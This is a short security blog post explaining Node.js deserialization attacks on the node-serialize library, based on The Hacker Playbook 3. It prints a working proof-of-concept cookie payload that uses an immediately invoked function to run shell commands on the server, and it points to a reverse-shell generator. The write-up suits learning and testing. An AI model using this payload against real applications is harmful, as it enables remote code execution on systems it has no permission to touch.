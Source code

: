 ```yaml
---
title: "Deserialization"
date: 2022-08-13T00:03:08-04:00
description: "Why So Serial?"
tags: [deserializtion]
featured_image: "images/Deserialization.jpg"
# images is optional, but needed for showing Twitter Card
images: []
categories: OWASP TOP10
comment: true
draft: true
---
```


# Node.js Deserialization

> This is example from the The Hacker Playbook 3

## Find the possible serialize object

In HTTP cookie header, I decode the cookie using base64. It's in json format, it might be a serialized object.

```
{"module":"node-serialize"}
```

Then, we use the following payload for POC.

```json
{"thp":"_$$ND_FUNC$$_function () {
 	require('child_process').exec('echo node deserialization is awesome!! >> /opt/web/chatSupportSystems/public/hacked.txt', function(error, stdout, stderr) { console.log(stdout) });} ()"}
```

It basically contains 2 import part, First a function that execute system command

```js
# normal function creation
# create a function that revoke process that execute system command
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
```

Next, JavaScript's [Immediately invoked function expression (IIFE). 

If it confuses you, like I do, just know it's to add a bracket `()` after the function, then the function will be execute after the object is created. Which looks like this

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

 To get a shell, we could use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a reverse shell.

```js
{"thp":"_$$ND_FUNC$$_function () {<paste your payload here>}()"}
```

---

Reference: 

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

